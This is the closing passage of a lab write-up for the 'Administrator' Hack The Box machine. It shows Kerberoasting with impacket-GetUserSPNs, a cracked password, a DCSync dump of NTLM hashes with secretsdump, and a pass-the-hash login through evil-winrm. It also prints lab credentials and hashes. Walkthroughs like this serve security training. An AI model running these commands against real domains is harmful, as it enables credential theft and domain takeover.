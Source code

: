 The first time I run the attack I get the following error message: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` this is because my machine and the DC are in different time zones and the clock skew is detected and stops me from doing the attack. This can be solved with a very handy tool called `ntpdate`. We can provide the DC's IP address to the tool and it will switch our time to the DC's time zone which would eliminate the clock skew. I tried running the command one by one but it seems that my time gets reset almost immediately this is why I run the commands with `;`. 

```
sudo ntpdate -u 10.10.11.42 ; impacket-GetUserSPNs -dc-ip 10.10.11.42 administrator.htb/emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb -request
```
![admin](/assets/images/administrator/Pasted image 20250311000833.png)

We get Ethan's hash. I used `hashcat` to crack the password and we get Ethan's credentials: 

```
ethan:limpbizkit
```


#### DCSync Attack

Since Ethan has **DCSync** rights over the DC we can perform this attack and get all the NTLM hashes from this DC, including the administrators hash. 

```
impacket-secretsdump -outputfile admin_hashes -just-dc administrator.htb/ethan@10.10.11.42
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
```

From here we can try to crack the hash but its not really necessary we can use pass the hash to login as administrator from `evil-winrm`.

```
evil-winrm -i 10.10.11.42 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

Overall this was a very fun box and I liked the concepts of lateral movement to get the password database from the FTP server. 